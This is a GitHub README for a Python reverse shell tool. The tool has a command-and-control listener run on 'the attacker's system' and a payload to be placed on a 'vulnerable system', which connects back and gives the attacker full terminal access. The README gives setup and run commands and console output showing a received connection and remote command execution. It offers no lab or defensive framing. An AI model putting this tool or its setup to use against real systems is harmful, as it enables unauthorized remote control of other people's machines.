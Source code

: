 # Reverse Shell
*Feel the complete power of the terminal with limited access*. Simplifies command execution on a system where you have access to a raw shell or when results of commands are not visible.
It gives the exact terminal feel.
### When to use it?
If you have access to a raw terminal and want a complete terminal like access to the system then this is your tool. 
+ You have found out some way to execute commands on a vulnerable system like execute an *ls* command but are not able to see the results of the command. 
+ You want complete terminal like access to the vulnerable system
### Modules 
1. **Reverse shell command center** - This script needs to be run on the attacker's system. The vulnerable system initiates a reverse tcp connection with this command center. This is responsible for providing the terminal feel. 
It takes commands from the attacker and then sends it to the payload running on the vulnerable system. Collects and shows the results of the commands from the payload script.
2. **Payload** - This script needs to be run of the vulnerable system. Once this is run, it initiates a tcp connection with the attackers system. Once the connection is established the attacker gets the complete terminal access to this vulnerable system. It collects instructions from the command center, executes them and send the results back to the command center.
### How to get this up and running?
First clone this repo. cd into the directory. Transfer the payload to the vulnerable system.
Setup on both the systems:
```sh
virtualenv ENV_NAME -p python3
source ENV_NAME/bin/activate
pip3 install requirements.txt
```
Starting the command center:
```sh
python3 command-control.py
```
Now you will see a screen something like this:
```console
____ ____ _  _ ____ ____ ____ ____    ____ _  _ ____ _    _    
|__/ |___ |  | |___ |__/ [__  |___    [__  |__| |___ |    |    
|  \ |___  \/  |___ |  \ ___] |___    ___] |  | |___ |___ |___ 
                                                               
____ ____ _  _ _  _ ____ _  _ ___     ____ ____ _  _ ___ ____ ____ _    
|    |  | |\/| |\/| |__| |\ | |  \    |    |  | |\ |  |  |__/ |  | |    
|___ |__| |  | |  | |  | | \| |__/    |___ |__| | \|  |  |  \ |__| |___ 
                                                                        


Simplifies command execution on a system with reverse shell access

Listening on port 8006 for connections...

```

Starting the payload:
```sh
python3 payload.py
```
Now the payload will establish connection with the command center and you will see a screen something like this:
```console
____ ____ _  _ ____ ____ ____ ____    ____ _  _ ____ _    _    
|__/ |___ |  | |___ |__/ [__  |___    [__  |__| |___ |    |    
|  \ |___  \/  |___ |  \ ___] |___    ___] |  | |___ |___ |___ 
                                                               
____ ____ _  _ _  _ ____ _  _ ___     ____ ____ _  _ ___ ____ ____ _    
|    |  | |\/| |\/| |__| |\ | |  \    |    |  | |\ |  |  |__/ |  | |    
|___ |__| |  | |  | |  | | \| |__/    |___ |__| | \|  |  |  \ |__| |___ 
                                                                        


Simplifies command execution on a system with reverse shell access

Listening on port 8006 for connections...
Received connection from  127.0.0.1  port: 39432
Client is: <socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 8006), raddr=('127.0.0.1', 39432)>
 ~username@hostname:working_directory$ 


```
Now you can start entering the commands and outputs will be shown just like the normal terminal
```console
____ ____ _  _ ____ ____ ____ ____    ____ _  _ ____ _    _    
|__/ |___ |  | |___ |__/ [__  |___    [__  |__| |___ |    |    
|  \ |___  \/  |___ |  \ ___] |___    ___] |  | |___ |___ |___ 
                                                               
____ ____ _  _ _  _ ____ _  _ ___     ____ ____ _  _ ___ ____ ____ _    
|    |  | |\/| |\/| |__| |\ | |  \    |    |  | |\ |  |  |__/ |  | |    
|___ |__| |  | |  | |  | | \| |__/    |___ |__| | \|  |  |  \ |__| |___ 
                                                                        


Simplifies command execution on a system with reverse shell access

Listening on port 8001 for connections...
Received connection from  127.0.0.1  port: 39432
Client is: <socket.socket fd=4, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 8006), raddr=('127.0.0.1', 39432)>
 ~asdf@hostname:python/revShell$ ls
command-control.py
payload.py
requirements.txt

 ~asdf@hostname:python/revShell$ cat requirements.txt
pkg-resources==0.0.0
pyfiglet==0.8.post1

 ~asdf@hostname:python/revShell$ cd ..
Changed Directory
 ~asdf@hostname:python$ 
```
